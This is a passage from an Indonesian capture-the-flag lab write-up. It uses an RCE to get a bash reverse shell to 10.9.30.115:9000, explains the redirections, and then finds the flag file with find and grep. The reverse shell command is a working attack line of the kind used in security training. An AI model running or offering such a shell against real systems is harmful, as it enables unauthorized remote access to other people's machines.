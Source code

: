Melalui RCE ini, kita bisa mendapatkan *reverse shell* untuk masuk ke dalam sistem.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```

Sedikit penjelasan :
- bash -i >& /dev/tcp/10.9.30.115/9000   
Mudahnya dibaca : "Berikan interactive shell dari bash melalui TCP ke 10.9.30.115 di port 9000"
- 0>&1  
"Redirect stdin (input) ke stdout (ouput)", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```

![8525accc17e0b613db09cbaca471ce8e.png](./_resources/c6f980247a834023bb9cb5fd3b73424c.png)

### Q4 : What is the flag in /var/www/flag.txt?

Pencarian kata flag secara rekursif dapat dilakukan dengan perintah `Find`.

```
find / -type f 2>/dev/null | grep flag
```

Flag ditemukan pada direktori `/var/www/` 
